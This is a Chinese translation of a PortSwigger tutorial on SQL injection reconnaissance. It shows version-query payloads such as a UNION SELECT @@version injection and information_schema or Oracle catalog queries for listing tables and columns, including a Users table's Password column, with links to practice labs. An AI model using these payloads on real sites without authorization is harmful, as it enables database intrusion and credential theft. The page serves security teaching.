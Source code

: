 ```yaml
---
description: '原文链接：https://portswigger.net/web-security/sql-injection/examining-the-database'
---
```


# 在SQL注入攻击中检索数据库

当利用 [SQL 注入](https://portswigger.net/web-security/sql-injection)漏洞时，收集数据库本身的信息通常是必要的。这包括数据库软件的类型和版本，还包括数据库中包含的表和列等内容。

## 查询数据库类型和版本

不同的数据库提供不同的版本查询方式。你通常需要尝试不同的查询方式，以找到一个有效的查询方式，能够确定数据库软件的类型和版本。

用于确定某些常用数据库类型的数据库版本的查询如下：

| 数据库类型 | 查询 |
| :--- | :--- |
| Microsoft, MySQL | `SELECT @@version` |
| Oracle | `SELECT * FROM v$version` |
| PostgreSQL | `SELECT version()` |

例如，你可以使用带有下边的 `UNION` 攻击：

```sql
' UNION SELECT @@version--
```

这可能会返回类似下面的输出，确认数据库是 Microsoft SQL Server，以及正在使用的版本。

```text
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```

> 实验：[SQL 注入攻击，在 Oracle 中查询数据库类型和版本](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

> 实验：[SQL 注入攻击，在 MySQL 和微软中查询数据库类型和版本](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

## 列出数据库的内容

大多数数据库类型（Oracle 是个明显的例外）都有一组被称作 information schema 的视图，这些视图提供有关数据库的信息。

你可以通过查询 `information_schema.tables` 来列出数据库的表：

```sql
SELECT * FROM information_schema.tables
```

返回输出如下：

```sql
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME    TABLE_TYPE
=====================================================
MyDatabase    dbo          Products BASE TABLE
MyDatabase    dbo          Users BASE    TABLE
MyDatabase    dbo          Feedback BASE TABLE
```

这些输出表明库中有三个表，分别是 `Products`, `Users`, `Feedback`。

你可以通过查询 `information_schema.columns` 列出特定表中的列：

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

返回输出如下：

```sql
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE
=================================================================
MyDatabase    dbo          Users      UserId      int
MyDatabase    dbo          Users      Username    varchar
MyDatabase    dbo          Users      Password    varchar
```

此输出显示了指定表中的列以及每列的数据类型。

> 实验：[SQL 注入攻击，在非 Oracle 数据库中列出数据库内容](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

## 等效于Oracle中的information schema

在 Oracle 中，你可以通过稍有差异的查询获取同样的信息。

你可以通过查询 `all_tables` 列出表：

```sql
SELECT * FROM all_tables
```

还可以通过查询 `all_tab_columns` 列出列：

```sql
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```

> 实验：[SQL 注入攻击，在 Oracle 中列出数据库内容](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)


